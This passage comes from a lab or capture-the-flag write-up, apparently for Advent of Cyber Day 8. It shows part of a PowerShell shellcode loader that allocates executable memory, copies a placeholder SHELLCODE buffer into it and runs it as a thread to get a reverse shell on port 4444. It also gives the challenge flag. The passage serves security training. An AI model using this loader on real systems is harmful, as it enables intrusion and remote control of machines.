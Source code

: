 ```powershell
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); 
} 
"@
Add-Type $CrtThread 
[Byte[]] $buf = SHELLCODE
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length) 
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0) 
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
![day8.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/AOC24/img/day8.JPG?raw=true)
- Now the command `dir` can view the directories on the Windows system and other commands can be executed this way.

**Questions:**
1. *What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\Users\glitch\Desktop** directory. You can view the content of the flag by using the command **type C:\Users\glitch\Desktop\flag.txt**.*
**Answer:** AOC{GOT_MY_ACCESS_B@CK007}. By executing `type C:\Users\glitch\Desktop\flag.txt` after the connection through port 4444 is made, `flag.txt` can be read.

**Concepts:**
- Generating shellcodes and reverse shell using msfvenom
- Executing shellcode on PowerShell

# Day 9
